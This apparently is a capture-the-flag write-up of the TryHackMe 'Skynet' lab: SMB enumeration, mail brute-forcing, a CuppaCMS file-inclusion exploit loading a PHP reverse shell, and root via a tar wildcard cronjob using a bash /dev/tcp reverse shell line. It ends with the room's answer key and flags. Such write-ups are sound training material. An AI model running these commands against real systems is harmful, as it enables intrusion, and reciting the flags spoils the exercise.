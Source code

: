 ```yaml
---
title: Skynet
date: 2022-09-03 09:45:47 +07:00
modified: 2022-09-03 09:45:47 +07:00
tags: [Skynet, TryHackMe, Writeup, OSCP]
description: Write Up for TryHackMe room Skynet
---
```




![](https://photos.squarezero.dev/file/abir-images/Skynet/logo.jpeg)

Room Name → **Skynet**

Room Link → [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

Author →[TryHackMe](https://tryhackme.com/p/tryhackme)

Description → A vulnerable Terminator themed Linux machine.

## **Recon**

I start with port scanning and service detection with [AutoRecon]().

Following ports  were found

|Ports|Service
|22| TCP (OpenSSH 7.2p2)
|80| HTTP (Apache httpd 2.4.18)
|110| POP3 (Dovecot pop3d)
|139|Samba (smbd 3.x - 4.x)
|143|imap (Dovecot imapd)
|445|Samba (smbd 4.3.11-Ubuntu)

![](https://photos.squarezero.dev/file/abir-images/Skynet/1.png)

Next, I start enumerating websites using [Feroxbuster]()

`feroxbuster -u http://10.10.244.66/ -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/2.png)

I found a login page [Squirrelmail]

`http://10.10.244.66/squirrelmail/src/login.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/3.png)

Then I enumerate SMB with [SMBMAP]()

`smbmap -H 10.10.244.66`

![](https://photos.squarezero.dev/file/abir-images/Skynet/4.png)

## **Exploit**

First I decided to check out SMB to see if it has something useful.
Only “anonymous” had an anonymous share. so I checked it out.

![](https://photos.squarezero.dev/file/abir-images/Skynet/5.png)

Inside I found a “attention.txt” and a log folder containing 3 text files.

![](https://photos.squarezero.dev/file/abir-images/Skynet/6.png)

![](https://photos.squarezero.dev/file/abir-images/Skynet/7.png)

The password for SMB has been reset. Also in the log1.txt I found potential passwords.

 ![](https://photos.squarezero.dev/file/abir-images/Skynet/8.png)

I decided to brute-force mail login page using username → “milesdyson” and log1.txt as passwords. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/9.png)

I logged in with “cyborg007haloterminator” and inside I found out the new password → `)s{A&2Z=F^n_E.B``

![](https://photos.squarezero.dev/file/abir-images/Skynet/10.png)

I logged in to SMB using the new password.  

![](https://photos.squarezero.dev/file/abir-images/Skynet/11.png)

I found important.txt.

![](https://photos.squarezero.dev/file/abir-images/Skynet/12.png)

The note mentions a hidden directory `/45kra24zxs28v3yd`

![](https://photos.squarezero.dev/file/abir-images/Skynet/13.png)

## **More E**numeration

I check out the source code of the page but didn’t find anything interesting. 

Also, I checked out the picture to see if there was any useful metadata. Still nothing interesting.

Next, I decided to find hidden directories. 
`feroxbuster -u http://10.10.244.66/45kra24zxs28v3yd -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/14.png)

I found another login page → `http://10.10.244.66/45kra24zxs28v3yd/administrator/`

![](https://photos.squarezero.dev/file/abir-images/Skynet/15.png)

## **More Exploitation**

After looking for a little bit I found an exploit for CuppaCMS in [exploit-DB](https://www.exploit-db.com/exploits/25971)

![](https://photos.squarezero.dev/file/abir-images/Skynet/16.png)

It is a local File Inclusion exploit where I can run my reverse shell. 

I download a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) and changed the host and port number.

![](https://photos.squarezero.dev/file/abir-images/Skynet/17.png)

Then I opened a python server and start a Netcat listening.

`python3 -m http.server 80`

`nc -lnvp 4444`

I executed LFI and got a shell

`10.10.244.66/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.19.204:80/shell.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/18.png)

I got the user flag

![](https://photos.squarezero.dev/file/abir-images/Skynet/19.png)

## **Privilege Escalation**

Time to get the root flag. I start by making the shell stable using python

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

![](https://photos.squarezero.dev/file/abir-images/Skynet/20.png)

I run Linpeas to find possible vulnerabilities to get the root.

![](https://photos.squarezero.dev/file/abir-images/Skynet/21.png)

After looking for sometimes I found a cronjob that runs as root every min

![](https://photos.squarezero.dev/file/abir-images/Skynet/22.png)

Upon checking the code I found the following

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I found this article exploiting tar wildcards → [TarWildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Tar has two options 

**–checkpoint[=NUMBER]** show progress messages for every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

This will help get access to root

```bash
I used the following commands
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.13.19.204/4445 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Then I started a Netcat session and wait for the cronjob to work. 

Now I am Root

![](https://photos.squarezero.dev/file/abir-images/Skynet/23.png)

I got the root flag! 

![](https://photos.squarezero.dev/file/abir-images/Skynet/24.png)


***Q1. What is Miles password for his emails?***

***A. cyborg007haloterminator***

***Q2. What is the hidden directory?***

***A. /45kra24zxs28v3yd***

***Q3. What is the vulnerability called when you can include a remote file for malicious purposes?***

***A. remote file inclusion***

***Q4. What is the user flag?***

***A. 7ce5c2109a40f958099283600a9ae807***

***Q5. What is the root flag?***

***A. 3f0372db24753accc7179a282cd6a949***